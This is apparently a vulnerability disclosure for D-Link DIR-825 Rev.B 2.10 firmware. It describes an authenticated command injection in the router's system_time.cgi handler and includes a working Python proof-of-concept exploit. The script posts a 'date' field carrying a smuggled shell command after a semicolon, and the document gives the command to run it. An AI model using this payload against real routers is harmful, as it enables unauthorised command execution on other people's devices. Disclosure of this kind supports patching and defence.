 ### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/system_time.cgi.
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'system_time.cgi'
   8 command = "20080523; echo 2 > /tmp/hello2"
   9
  10 payload = {
  11     "date": command,
  12     "html_response_return_page": "static_routing.asp",
  13 }
  14
  15 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 date-comm.py`

### Example output
![Example output](./img/date-command-inject.jpg)
